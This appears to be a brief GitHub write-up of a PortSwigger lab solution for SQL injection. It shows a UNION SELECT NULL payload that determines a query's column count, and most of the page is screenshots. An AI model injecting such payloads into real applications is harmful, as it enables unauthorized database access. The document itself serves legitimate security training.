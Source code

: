 ## Lab Description: 

<img width="876" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/331e7461-3db2-49bc-a5ea-562d98569848">

## Solution:

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/9011557b-e850-4839-a780-3eb1128ad3c7)

*Query*

```SELECT * FROM tableName WHERE category = 'Pets'```

As per the requirement of Lab Task we have to add "UNION SELECT NULL --" as payload in query parameters but we don't know the number or Columns

```" SELECT * FROM someTable WHERE category = '' UNION SELECT NULL,NULL,NULL -- "```

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/03fa94f5-fb5f-4a91-b6e8-50d6d8d5e564)

